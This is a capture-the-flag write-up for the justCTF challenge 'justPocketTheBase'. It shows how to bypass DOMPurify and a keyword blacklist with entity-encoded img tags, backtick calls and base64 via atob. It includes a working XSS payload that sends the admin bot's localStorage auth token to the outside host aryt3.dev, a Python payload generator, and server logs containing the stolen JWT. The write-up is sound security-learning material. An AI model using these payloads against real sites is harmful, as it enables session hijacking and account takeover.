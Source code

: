 # justPocketTheBase

## Description
```
The thing I love the most about ready-to-use backends and frameworks is that they are always secure :)

-http://justpocketthebase.web.jctf.pro
```

## Provided Files
```
- justpocketthebase_docker.tar.gz
```

## Writeup

> [!NOTE]
> Credit to [Profiluefter](https://github.com/profiluefter) and [lavish](https://github.com/lavish) who worked together with me on this challenge.

Starting off by taking a look at the website before inspecting the provided code. <br/>
After creating an account we are able to create plants which will be stored in the application and can be accessed via `/view-plant?id=[ID]`. We can pass a title and an image to create such an object. <br/>
Custom character-blacklist:  <br/>
```js
let blacklist = [
	'window',
	'document',
	'cookie',
	'fetch',
	'navigator',
	'sendbeacon',
	'+',
	'_',
	'script',
	'!',
	'"',
	'#',
	'%',
	"'",
	'(',
	')',
	'*',
	'+',
	',',
	'-',
	'/',
	':',
	'?',
	'@',
	'[',
	']',
	';'
];

const sanitizedTitle = DOMPurify.sanitize(plant.title);
const newTitleElement = document.createElement('div');
newTitleElement.classList.add('title');
newTitleElement.innerHTML = sanitizedTitle;
const safe = newTitleElement.innerText;
try {
        if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
		throw new Error('not safe!!!');
	}
	title.innerHTML = safe;
} catch (err) {
	window.location.href = '/';
}
```

The `dompurify` can be bypassed using [HTML-Entity-Characters](https://html.com/character-codes/) by simply encoding `<` and `>`. <br/>

It's possible to execute XSS via the `title` of a new plant by exchanging **()** with **``**. <br/>
```js
&lt;img src=1 onerror=alert`1`&gt;
// &lt; == <
// &gt; == >
```

Using [PortSwigger-Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#img-tag-with-base64-encoding) we are able to simply execute javascript and bypass the `custom-blacklist`. <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;
```

Making a script to enchance efficiency: <br/>
```py
import base64

payload = 'JAVASCRIPT-PAYLOAD'

print(f'&lt;img src=1 onerror=location=atob`{base64.b64encode(bytes(f"javascript:{payload}", "utf-8"))}`&gt;')
```

Leak localstorage which contains the JWT of the bot: <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;

// fetch(`https://aryt3.dev/${localStorage.getItem("pocketbase_auth")}`)
```

Server Logs after reporting the webpage: <br/>
```
167.71.14.123 - - [15/Jun/2024:13:54:43 +0200] "GET /%7B%22token%22:%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjIwODIsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.LqdYoqEO8cDmOgertTUt5FsmP6jUfDM0Z-GEbEJwBkc%22,%22model%22:%7B%22avatar%22:%22%22,%22collectionId%22:%22_pb_users_auth_%22,%22collectionName%22:%22users%22,%22created%22:%222024-06-15%2010:52:23.378Z%22,%22email%22:%22%22,%22emailVisibility%22:false,%22id%22:%22ebm7wofy99nmb4b%22,%22name%22:%22%22,%22updated%22:%222024-06-15%2010:52:23.378Z%22,%22username%22:%22flag%22,%22verified%22:false%7D%7D HTTP/1.1" 502 559 "http://localhost/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.0.0 Safari/537.36"
```

URL-Decoded:
```json
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjI2OTcsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.hSvcypOCNSsIYeXJ-JZE4H7vWnt7UFvrzAoMBkxwVp0","model":{"avatar":"","collectionId":"_pb_users_auth_","collectionName":"users","created":"2024-06-15 10:52:23.378Z","email":"","emailVisibility":false,"id":"ebm7wofy99nmb4b","name":"","updated":"2024-06-15 10:52:23.378Z","username":"flag","verified":false}}
```

Having obtained the whole localstorage-item `pocketbase_auth`, we can switch ours with this one. <br/>
After that we can access the post with the `flag-image`. <br/>
Afterwards we can inspect the image in the `admin-post` which reveals the flag and concludes this writeup. <br/>
```sh
$ exiftool flag_gygEshYymV.png 
ExifTool Version Number         : 12.76
File Name                       : flag_gygEshYymV.png

---------------------------------------------------------

Artist                          : justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
```# justPocketTheBase